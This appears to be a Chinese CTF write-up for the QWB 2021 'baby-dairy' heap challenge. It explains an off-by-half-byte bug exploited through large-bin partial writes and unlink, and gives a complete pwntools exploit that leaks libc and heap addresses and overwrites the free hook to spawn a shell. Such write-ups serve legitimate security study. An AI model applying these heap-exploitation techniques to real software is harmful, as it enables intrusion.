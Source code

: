 ```yaml
---
title: Off By Half Byte:Baby-Dairy
date: 2021-07-02 14:53:19
tags: 
layout: default
---
```

baby-dairy qwb 2021
<!--more-->
# Ana

`libc version` == 2.31

漏洞点：

1. add会比输入的size大一个字节之后会补零，之后会往内容后面多半个字节写一个`checksum`(暂且称之为`offby0.5`)
2. `show`的时候会检查`checksum`不过写的有些问题用的是`&1`所以一半可能性能`show`出来（虽然`index`和`ptr`和`size`会被检查）

虽然做完之后感觉也没啥，但是这种利用`large bin`的方式很巧妙值得一篇单独的wp。

# Solution

本题之中开始时能用的上的只有 `offby0.5`,不能控制`size`大小所以只能控制`inuse`，这时候只能走`unlink`。因为`unlink`会检查 `fd→bk` 和`bk→fd`，但是没有泄漏，所以需要借助已有的地址，至于为什么要用`largin bin`因为`large bin`可以直接提供两个指向自己的`heap`指针且恰好可以设计size=presize（其实我是马后炮，我是看了队友给出的一篇[文章][1]发现2.29没泄漏走`large bin`比较快）。

一个`large bin`一般长这样，我们构造我们的fake chunk 再`large bin +0x10`处，将`bk`改成`size`，使其等于`persize`，`presize`自己算，恰好把`fake` `chunk`给`unlink`掉。

```bash
large bin (splited):
--------------------------------
presize       size
--------------------------------
fd            bk
--------------------------------
fd_nextsize   bk_nextsize
--------------------------------
unsorted bin
...
--------------------------------
attack chunk:(which offby0.5/with a fake presize)
--------------------------------
victim: (which would consolidate backforward)
...
--------------------------------
```

我们的写指针从`fd`开始写，当只有一个`large bin`的时候`nextsize`指针都指向自己，这是个优势我们如果要满足`unlink`只需要

1. `presize` = `large bin` +0x10
2. `fd` = `bk`-0x8
3. `size` = `pre_size`

通过以下手段满足：

1. 用`fastbin chain`（`tcache` 的话`key`会覆盖掉`fake chunk`的`size`）来放一个`heap`地址之后`partial` `write`掉指向`fake chunk`
2. `fd`可以`partial write`最后一个字节，倒数第二字节需要碰运气恰好为00（当然最后1.5字节要自己调成0，此处需要1/16的概率），之后程序会改掉2.5字节所以再需要1/16的概率。

这样只要设置好 `attack chunk`的 `fake presize`之后`free` 掉 `attack chunk` 就可以`overlap` `unsorted bin`，接下来就是常规操作了。

# EXP(1/256)

```python
from pwn import *
context.arch='amd64'
def cmd(c):
    p.sendlineafter(">> ",str(c))
def add(size,c='A\n'):
    cmd(1)
    p.sendlineafter(": ",str(size-1))
    p.sendafter(": ",c)
def free(c):
    cmd(3)
    p.sendlineafter(": ",str(c))
def show(c):
    cmd(2)
    p.sendlineafter(": ",str(c))
p=process("./pwn")
#context.log_level='debug'
add(0xd60)#0
add(0x6f8+0x20)#1
add(0x208)#2
add(0x488)#3
add(0x28)#4
free(1)
add(0xAAA)#1
add(0x18,"A\n")#5
add(0xAAA)#6
add(0x28,p64(1+0xd)+p64(0x901)+b'\x18'+b'\n')#7
for x in range(8,8+8):
    add(0x28)
for x in range(8,8+8):
    free(x)
free(7)
for x in range(7,7+7):
    add(0x28)
add(0x28,'\x30\n')#14
free(2)
add(0x208,'\0'*0x207)#2
free(2)
add(0x208,'\0'*0x1ff+'\x09'+'\n')#2
# context.terminal=['tmux','split']
# gdb.attach(p,'''
# set *0x55555555a040=0x000055555555a018
# set *0x000055555555a030=0x000055555555a030
# q
# ''')
context.terminal=['tmux','split','-h']
free(3)
add(0x548)#3
context.log_level='debug'
add(0x28,'A'*0x16+'\n')#15
add(0x160)#16
#raw_input()
show(15)
p.readuntil(": ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7f83ef52dbe0-0x7f83ef342000)
log.warning(hex(base))
#gdb.attach(p)
add(0x28)#17
add(0x28)#18
add(0x28)#19
add(0x28)#20
for x in range(7,7+6):
    free(x)
free(18)
free(20)
free(15)
show(17)
p.readuntil(": ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x1230
log.warning(hex(heap))
free(19)
free(17)
for x in range(7,7+6):
    add(0x28)
add(0x28)#15
add(0x28,p64(base+0x1eeb28)+b'\n')#17 - > free hook 
add(0x28,'/bin/sh\0\n')#18
add(0x28)#19
add(0x28,p64(base+0x55410)+b'\n')#20
#gdb.attach(p,'b free')
free(18)
p.interactive()
```

# 总结

利用`large bin`的结构`partial write`来满足`unlink`的思路是很骚了。

即使是末尾补0，无泄露也挡不住`0ffby0.5`，这题挺有意思的。

[1]: https://www.anquanke.com/post/id/236078?ivk_sa=1024320u#h3-14